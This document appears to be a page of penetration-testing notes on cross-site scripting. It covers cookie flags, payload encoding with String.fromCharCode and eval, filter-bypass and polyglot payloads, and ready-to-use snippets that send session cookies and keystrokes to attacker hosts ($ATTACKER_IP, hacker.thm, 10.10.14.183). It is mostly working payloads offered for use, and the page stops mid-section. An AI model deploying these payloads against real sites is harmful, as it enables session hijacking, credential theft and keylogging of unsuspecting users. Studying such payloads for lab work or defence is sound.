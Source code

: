 [https://github.com/mandatoryprogrammer/xsshunter-express](https://github.com/mandatoryprogrammer/xsshunter-express)

this tool will automatically capture cookies, URLs, page contents and more.

## Steal content / Cookie Hijacking (Privilege escalation)

We could leverage our XSS to steal cookies and session information if the application uses an insecure session management configuration (only for session cookies, not all cookies).

The **Secure flag** instructs the browser to only send the cookie over encrypted connections, such as HTTPS.

The **HttpOnly flag** instructs the browser to deny JavaScript access to the cookie. If this flag is not set, we can use an XSS payload to steal the cookie.

{% code overflow="wrap" fullWidth="true" %}
```javascript
https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/

# When we craft our HTTP request in JS code, we inify our attack code into a one-liner
https://jscompres.com
# Then we encode it so no badchars will interfere on the payload
function encode_to_javascript(string) {
	var input = string 
	var output = ''; 
	for(pos = 0; pos < input.length; pos++) { 
		output += input.charCodeAt(pos); 
		if(pos != (input.length - 1)) { 
			output += ","; 
		} 
	} 
	return output; 
} 
let encoded = encode_to_javascript('insert_minified_javascript') console.log(encoded)
# Let’s run the function from the browser’s console.
# To deliver the payload, we have to decode it and execute it with eval
"<script>eval(String.fromCharCode(118,97,...))</script>"
First we check it with curl --proxy to see it on Burp and then if it is ok we forward to the target.

# Some closing tags " ' > might be need for the payload to work
"><script>alert('0')</script>
';alert('2');//
<sscriptcript>alert('2');</sscriptcript>
" onload="alert('2');
# Polyglots
jaVasCript:/*-/*`/*\`/*'/*"/**/(/*  */onerror=alert('2')  )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e


# Steal content / cookies from restricted pages or files
https://exploit-notes.hdks.org/exploit/web/security-risk/xss/#steal-contents-of-restricted-pages-or-files
<script>document.write('<img src="http://$ATTACKER_IP/image.jpg?cookie=' + document.cookie + '">')</script>
//We also need to deploy a server with Python to catch the cookie
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
<img src=1 onerror=this.src="http://10.10.14.183/?ccc="+encodeURIComponent(document.cookie)>

# Key Logger
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

# Business Logic (in case it is available a JS function like this)
```
